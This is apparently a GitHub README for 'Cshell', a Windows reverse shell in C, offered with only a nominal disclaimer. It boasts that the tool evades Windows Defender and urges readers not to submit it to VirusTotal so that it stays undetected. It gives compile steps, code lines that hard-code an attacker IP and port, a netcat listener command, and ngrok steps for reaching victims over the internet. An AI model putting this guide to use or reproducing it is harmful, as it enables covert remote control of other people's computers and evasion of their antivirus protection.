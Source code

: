 # Cshell - Reverse Shell in C

Cshell is a simple reverse shell written in C that connects to a specified IP address and port, allowing an attacker to execute system commands on the victim's machine remotely. This reverse shell leverages the Winsock API on Windows and hides the console window upon execution.
Disclaimer

This project is for educational purposes only.
Use this tool responsibly. Unauthorized access to systems without proper consent is illegal and punishable by law. The author is not responsible for any misuse or damages caused by this program. Make sure you have permission before using this reverse shell on any device or network.

# Important Note:

As of `10/09/2024`, Cshell is undetectable by Windows Defender. However, do not upload the binary or script to sites like VirusTotal, as doing so could lead to its detection being added to antivirus databases, compromising its effectiveness.

# Features

   - Connects to a remote IP address and port over TCP.
   - Executes system commands received from the remote host.
   - Sends the output of the commands back to the remote host.
   - Hides the console window to run silently in the background.
   - Undetectable by Windows Defender as of 10/09/2024.

# How to Compile Cshell

Cshell is designed for Windows and can be compiled using Visual Studio Community Edition. Follow these steps to compile it:
Prerequisites

   1. [Visual Studio Community Edition](https://visualstudio.microsoft.com/vs/community/) (Ensure that the "Desktop development with C++" workload is installed).
   2. [Windows SDK](https://developer.microsoft.com/en-us/windows/downloads/windows-sdk/) (Should be installed by default with Visual Studio).

# Compilation Steps

   1. Clone or download this repository.
   2. Open the project folder in Visual Studio.
   3. Open the `.sln` (solution) file to load the project.
   4. Edit the `server.sin_addr` line in the source code to hard-code your IP/Hostname and Port:

```c
server.sin_port = htons(4444); // Replace with your port
InetPton(AF_INET, "<IP/Hostname>", &server.sin_addr); // Replace with your IP/Hostname
```

   5. Build the project by selecting Build > Build Solution (or press Ctrl+Shift+B).
   6. The compiled executable will be located in the project's Debug or Release folder.

# Running the Reverse Shell

   1. Host a listener on the specified port. You can use tools like `Netcat` or `Metasploit` to listen for the incoming connection:

```bash
    nc -lvnp 4444
```
   2. Replace `4444` with the port you configured in the source code.

   3. Execute the `Cshell.exe` on the target machine. The reverse shell will attempt to connect to the IP address and port hard-coded in the source code.

# Using ngrok for Internet Access

To make the reverse shell accessible over the internet, you can use ngrok to expose a local port to the public internet.

# Steps to Use ngrok:

   1. Download ngrok:

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
tar -xvzf ngrok-v3-stable-linux-amd64.tgz
```
Or follow the official instructions from [ngrok.com](https://ngrok.com/)

2. Expose Your Local Port: Run the following command to expose the listener port (e.g., `4444`) to the internet:

```bash
ngrok tcp 4444
```

3. `ngrok` will give you a forwarding address (e.g., `tcp://0.tcp.ngrok.io:12345`).

3. Edit the Code: Replace the `<IP/Hostname>` in your code with the forwarding address provided by `ngrok` (e.g., `0.tcp.ngrok.io`) and the port with the one provided (e.g., `12345`):

```c
server.sin_port = htons(12345); // ngrok assigned port
InetPton(AF_INET, "0.tcp.ngrok.io", &server.sin_addr); // ngrok forwarding address
```

4. Run Your Listener: Start a listener on the ngrok-exposed port using `Netcat` or any other reverse shell listener tool:

```bash
    nc -lvnp 12345
```
5. Run the Shell: Execute the Cshell.exe on the target machine. It will now connect through ngrok, allowing you to get a reverse shell over the internet.

# Security Considerations

Be aware that running reverse shells can expose vulnerabilities in the systems they target. Always secure your systems and use such tools ethically. For more advanced usage, consider implementing encryption or authentication mechanisms to secure the connection.

# License

This project is licensed under the MIT License. See the LICENSE file for more details.
